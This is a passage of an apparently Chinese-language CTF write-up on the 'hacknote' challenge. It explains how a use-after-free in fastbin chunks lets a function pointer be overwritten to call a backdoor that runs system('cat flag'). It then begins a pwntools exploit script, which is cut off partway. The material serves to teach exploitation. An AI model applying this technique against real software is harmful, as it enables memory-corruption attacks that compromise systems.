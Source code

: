 可以看到进行打印note的函数逻辑是，调用notelist[i]的前四个字节的函数，且将notelist[i]本身作为参数传递。

`print_note_content`函数，也就是每个notelist[i]的前四个字节的函数如下：

```c
int __cdecl print_note_content(int a1)
{
  return puts(*(const char **)(a1 + 4)); // puts函数对传进来的参数偏移4字节的地方输出
}
```

程序中可能用到的一处后门函数：

```c
int magic()
{
  return system("cat flag");
}
```

该后门函数入口地址是`0x08048986`。

现在我们已经明白整个程序的工作流程了。由于`free`后，程序并没有将指针置零，因此用户可以对已经被`free`的内容进行修改。那如何进行修改呢？实际上，当用户申请的`chunk`被`free`以后，该`chunk`会添加到`fastbin`中，若用户再次申请等同于该`chunk`大小的空间时，该`chunk`又会被分配给用户使用。在本程序中，用户只能在`add_note`中对`chunk`进行赋值，由此可以用如下流程进行`UAF`:

- 用户添加两块大小为0x10字节的note，分别设为note0和note1
- 申请每个note时，会先申请0x8字节用于存放note的两个指针。
- 删除note0，再删除note1。那么有四个空间被`free`，分别为：大小为0x8字节的note0的空间，note0后四字节指向的大小为0x10的content的空间，大小为0x8字节的note1的空间，note1后四字节指向的大小为0x10的content的空间。
- 由于fastbins是先进后出，因此fastbin链表中有：大小为0x10字节的note1->note0，大小为0x18字节的content1->content0。注意其中加上了header的0x8字节，32位下是0x8字节的header。
- 用户此时再申请一个大小为0x8的note，设为note2，先申请0x8字节用于存放note2的两个指针，那么这里申请到的0x8字节的空间实际上是note1。再申请0x8字节的空间用于存放note2后四字节指向的content，这里实际上申请到的是note0。
- 用户申请note2时可以对其进行赋值，赋值实际上是对note0进行修改。若对其赋值为`0x08048986`，那么note0的前四字节将会被修改为`0x08048986`。此时用户对note0进行打印操作，那么会调用`0x08048986`处的函数，也就是后门函数，成功执行漏洞。

`exp`如下：

```python
from pwn import *

context(log_level='debug')
sh = process('./hacknote')
elf = ELF('./hacknote')
libc = elf.libc

def debug():
    pid = util.proc.pidof(sh)[0]
    print('pid:{}'.format(pid))
    gdb.attach(pid)
    pause()

def add_note(size, content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('Note size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.sendline(content)

def delete_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

def print_note(index):
    sh.recvuntil('Your choice :')
```